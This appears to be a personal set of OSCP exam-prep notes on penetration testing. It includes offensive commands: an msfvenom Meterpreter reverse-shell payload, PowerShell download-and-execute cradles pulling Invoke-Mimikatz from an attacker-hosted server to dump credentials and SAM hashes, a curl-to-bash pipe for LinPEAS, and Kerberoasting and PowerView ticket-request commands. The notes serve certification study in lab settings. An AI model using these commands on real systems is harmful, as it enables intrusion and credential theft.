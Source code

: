 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Quick Notes

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
* **REMEMBER KISS - Keep It Super Simple**. Several times I have tried to do something overly complicated when the first thing I would have tried would work.
* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Got me out of a situation where I was extremely stuck.&#x20;
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`
* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:

`GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`

* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities:

**Get Domain Users**

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)

